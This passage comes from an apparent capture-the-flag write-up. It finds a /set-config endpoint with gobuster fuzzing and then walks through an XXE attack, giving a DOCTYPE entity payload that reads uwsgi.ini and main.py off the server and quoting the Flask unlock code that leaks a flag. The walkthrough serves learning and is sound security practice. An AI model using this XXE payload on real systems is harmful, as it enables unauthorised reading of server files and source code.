 Mmh strange... But if there is a get-config maybe there also is a set-config. Indeed **/set-config** which tells us we made a bad request. Well setting something without giving parameter surely makes few sence so lets try to add a parameter. After trying around a bit I found that "data" is the correct get parameter we have to set. We could also find it with gobuster using:

```
gobuster fuzz -u http://base-url/set-config?FUZZ -w wordlist
```

Okay putting it all together. "/get-config" gives us an XML-file with a <location>-node. It appears that this content is used in the admin page to display to us "Front door". Lets try to set the config to

{% highlight xml %}
<?xml version="1.0" encoding="UTF-8"?><config><location>test</location></config>
{% endhighlight %}

to prove that we are right. Indeed the admin page displays "test" now.

# XXE

A well known vulnearbility in XML is XXE. We can sometimes use XML entities to read system files. This is because we can set variables inside an XML document using Document Type Definition. This can be done like this:
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file"> ]><location>&xxe;</location>
```

!DOCTYPE foo defines the doctype of our XML-file and <!ENTITY xxe SYSTEM "file"> says that we want an entity called xxe which is the content of "file". This variable can then be referenced with &xxe from our XML-file. The only question now is: What do we want to read?

I used the tip here that our application runs with "uwsgi-nginx-flask-docker". A short search for this reveals that there is a file "/app/uwsgi.ini" to configure our main module. This doesnt exist though but **uwsgi.ini** does and it tells us that the main module is "main" thus there must be a **main.py**. Lets read this one. BUT since we have special characters like ! and & in our URL then we have to encode our parameter first with URL-encoding. Jackpot it works. We get the code snipped that is responsible to unlock the website given the correct input:

{% highlight python %}
from flask import Flask, abort, redirect, request, Response, session
from jinja2 import Template
import base64, json, os, random, re, subprocess, time, xml.sax
from cStringIO import StringIO

from rng import *

----------------------------CUT---------------------------------

@app.route('/unlock', methods=['POST'])
def unlock():
   code = int(request.form['code'])
   cur = next(26)
   time.sleep(5)

   if code == cur:
      return 'Unlocked successfully.  Flag: ' + flags[1]
   else:
      return 'Code incorrect.  Expected %08i' % cur
----------------------------CUT---------------------------------
{% endhighlight %}
